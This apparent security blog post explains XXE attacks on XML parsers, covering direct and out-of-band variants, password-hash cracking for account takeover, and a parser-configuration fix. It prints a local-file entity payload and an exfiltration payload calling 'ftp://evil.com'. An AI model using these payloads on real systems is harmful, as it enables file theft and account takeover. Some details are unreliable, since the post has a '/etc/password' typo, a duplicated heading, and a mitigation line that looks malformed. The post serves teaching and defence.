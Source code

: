```yaml
---
layout: post
title: Web Application Security - XML External Entity (XXE) Attack
published: true
---
```


Here in the blog post, we will learn about another type of attack, XML External Entity (XXE), which relies on an improperly configured XML parser on the application code. Even though the mitigation is easier for these sets of attacks, however, once it is uncovered that XXE attack can be successful, the attacker can very well take over the instance also as a result, making it one of the deadliest attacks. Due to such a high-risk nature, even though the use of XML payload is sunsetting now, with more web applications relying upon JSON, it is still ranked as 5th out of OWASP's top 10 most critical security risks to web applications as of today (Nov-2024). In this blog post we will explore different types of XXE attacks, how XXE can be used for system takeover, and how to mitigate such attacks by properly configuring XML parsers.


### Type of XXE attacks:

The XXE attack vulnerability involves some API endpoint, which either takes an XML payload, or the non-XML payload is processed to generate an intermediate XML payload, which is then later processed by an XML parser, maybe by some internal legacy application.

The XXE attack can target any format following XML-like specifications, including SVG, HTML/DOM, PDF, RTF, etc. In all these attacks, the attacker tries to provide an external entity, which is interpreted by the system on which the XML parser parses the request. This means, the attacker can request to see any files from the local file system, which then the improperly configured XML parser resolves, and returns the response with the content from local file systems, compromising the system.

Example of such XML payload:
```xml
<!DOCTYPE fooo [ <!ENTITY ext SYSTEM "file:///etc/password"> ]>
```

##### Direct XXE attack:

![](../images/web-security/XXE_direct.png)


##### Direct XXE attack:

![](../images/web-security/XXE_indirect.png)


##### Out-of-Band Data Exfiltration:
Certain times, web applications rely on XML parsers for some intermediate operations. In those cases, the output of the internal operation might not be visible directly as a response. In those cases, an out-of-band data exfiltration technique can be used. This technique is used by attackers to redirect the output by transmitting it over some alternative communication channel. For example, some XXE payload can be created that would try to transmit information from the system to a specific FTP server like the following:

```xml
 <!ENTITY % d SYSTEM "file:///etc/passwd">
 <!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://evil.com/%d;'>">
```


### How to perform account takeover with XXE:

The /etc/passwd file in the Linux file system contains user and group-related information. It also contains the location to check for the hashed password for that user. The second column generally contains the password storage location (x denotes the default password storage location at /etc/shadow). Once the hashed password is obtained, there are several third-party password cracking tools like "John the Ripper" or "Hashcat" to generate plain-text passwords from hashed passwords. There are several tools available like "unshadow" which formats the captured file-system contents so that they can be fed to these password-cracking tools.


### Mitigation:

Disable external entities in XML parser: Typically it's just a single line of configuration:

```java
    factory.setFeature("https://apache.org/xml/features/disallow-doctype-decl", true)
```


### References
1. Web Application Security by Andrew Hoffman
